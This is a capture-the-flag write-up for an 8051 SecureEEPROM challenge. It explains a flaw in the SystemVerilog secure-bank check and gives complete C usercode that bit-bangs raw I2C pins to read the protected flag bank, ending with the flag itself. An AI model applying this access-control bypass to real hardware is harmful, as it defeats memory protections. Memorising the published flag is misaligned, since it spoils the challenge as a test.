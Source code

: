 ### Challenge Description:
```This 8051 board has a SecureEEPROM installed. It's obvious the flag is stored there. Go and get it.```

We are given `firmware.c` which runs on Intel 8051 emulator, and `seeprom.sv` which is a SystemVerilog source code that manages the so-called SecureEEPROM. After running the firmware, the emulator runs usercode supplied by the attacker.

Usually, the firmware/usercode (simply called "usercode" from now on) communicated with the EEPROM according to the given I2C protocol. The I2C protocol follows the below steps (note that emulator implementation details are omitted):
1. Usercode sets necessary data in XDATA region, at address 0xfe00 of size 0x10 bytes.
2. Usercode sets the `I2C_STATE` flag to 1, located in SFR region at address 0xfc of size 1 byte.
3. Usercode waits until `I2C_STATE` is set to 0. At this time, the EEPROM reads/writes data as requested by the usercode.
4. Usercode retrieves data back from the same XDATA region.

However, we have direct access to GPIO ports `RAW_I2C_SCL` and `RAW_I2C_SDA` used internally for the I2C protocol, located in SFR region at address 0xfa and 0xfb respectively. This allows us to communicate with the EEPROM directly.

The EEPROM splits 256 bytes of data into 4 banks of index 0 ~ 3, each having 64 bytes of data. Bank 1 holds the flag data, and has its secure bit set.

The EEPROM's SystemVerilog code has a vulnerability with contiuous read/write operations, as they check only if the secure state of current address and next address is the same but not whether if it actually is secure or not. This is not a huge problem if we only use the I2C protocol as given, but as we have access to raw GPIO ports this can be exploited as the following steps (using `enum i2c_state`, ACK omitted):
1. `I2C_START` -> `I2C_LOAD_CONTROL (SEEPROM_I2C_ADDR_MEMORY | 0)` -> `I2C_LOAD_ADDRESS (63)` sets `i2c_address_valid <= 1`
2. `I2C_START` -> `I2C_LOAD_CONTROL (SEEPROM_I2C_ADDR_SECURE | 0b0001)` sets bank 0 as secure
3. `I2C_START` -> `I2C_LOAD_CONTROL (SEEPROM_I2C_ADDR_MEMORY | 1)` -> `I2C_READ` where read succeeds since `i2c_address_valid == 1`, and proceeds to continous read since `i2c_address_secure == i2c_next_address_secure`
4. Receive & Print flag, byte-by-byte

Below is the analysis of how the usercode can interact with the EEPROM using raw scl/sda ports.
```
send_start:
    scl = 0
    sda = 1
    scl = 1
    sda = 0

recv_ack:
    scl = 0
    scl = 1
    return sda (0 == ACK, 1 == NACK)

send_byte:
for i in [0, 7]:
    scl = 0
    sda = (i'th bit from MSB)
    scl = 1

recv_byte:
for i in [0, 7]:
    scl = 0
    scl = 1
    (i'th bit from MSB) = sda

send_stop:
    scl = 0
    sda = 0
    scl = 1
    sda = 1
```

The (minimal) exploit usercode is given below.
```C
__sfr __at(0xff) POWEROFF;
__sfr __at(0xfd) CHAROUT;

__sfr __at(0xfa) RAW_I2C_SCL;
__sfr __at(0xfb) RAW_I2C_SDA;

const SEEPROM_I2C_ADDR_MEMORY = 0b10100000;
const SEEPROM_I2C_ADDR_SECURE = 0b01010000;

void print(const char *str)
{
    while (*str)
    {
        CHAROUT = *str++;
    }
}

void send_start()
{
    RAW_I2C_SCL = 0;
    RAW_I2C_SDA = 1;
    RAW_I2C_SCL = 1;
    RAW_I2C_SDA = 0;
}

void send_stop()
{
    RAW_I2C_SCL = 0;
    RAW_I2C_SDA = 0;
    RAW_I2C_SCL = 1;
    RAW_I2C_SDA = 1;
}

void recv_ack()
{
    RAW_I2C_SCL = 0;
    RAW_I2C_SCL = 1;
    if (RAW_I2C_SDA)
        print("NACK!!\n");
}

void send_byte(unsigned char byte)
{
    unsigned char i;
    for (i = 0; i <= 7; i++)
    {
        RAW_I2C_SCL = 0;
        RAW_I2C_SDA = ((byte >> (7 - i)) & 1) != 0;
        RAW_I2C_SCL = 1;
    }
}

unsigned char recv_byte()
{
    unsigned char byte = 0, i;
    for (i = 0; i <= 7; i++)
    {
        RAW_I2C_SCL = 0;
        RAW_I2C_SCL = 1;
        byte = (2 * byte) | RAW_I2C_SDA;
    }
    return byte;
}

void main(void)
{
    unsigned char i;

    send_start();
    send_byte(SEEPROM_I2C_ADDR_MEMORY | 0);
    recv_ack();
    send_byte(63);  // end of bank 0, just before bank 1 (flag)
    recv_ack();  // i2c_address_valid <= 1

    send_start();
    send_byte(SEEPROM_I2C_ADDR_SECURE | 0b0001);  // secure bank 0
    recv_ack();

    send_start();
    send_byte(SEEPROM_I2C_ADDR_MEMORY | 1);

    for (i = 0; i <= 63; i++)
    {
        recv_ack();
        CHAROUT = recv_byte();
    }

    send_stop();

    POWEROFF = 1;
}
```

**FLAG: `CTF{flagrom-and-on-and-on}`**